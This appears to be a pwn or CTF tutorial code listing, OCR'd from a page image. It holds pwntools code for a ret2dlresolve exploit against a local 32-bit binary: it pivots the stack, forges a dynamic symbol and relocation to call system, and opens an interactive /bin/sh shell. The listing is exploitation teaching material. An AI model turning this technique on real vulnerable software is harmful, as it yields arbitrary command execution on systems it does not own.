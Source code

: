 ```python
stack_size = 0x800
base_stage = bss_addr + stack_size
## padding
rop.raw('a' * offset)
## read 100 byte to base_stage
rop.read(0, base_stage, 100)
## stack privot, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

# write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

## making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
# plus 10 since the size of Elf32_Sym is 16.
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name, 0, 0, 0x12])

## making fake write relocation

# making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
# fake ret addr of write
rop.raw('bbbb')
rop.raw(base_stage + 82)
rop.raw('bbbb')
rop.raw('bbbb')
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('system\x00')  # there must be a \x00 to mark the end of string
rop.raw('a' * (80 - len(rop.chain())))
print rop.dump()
print len(rop.chain())
rop.raw(sh + '\x00')
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```
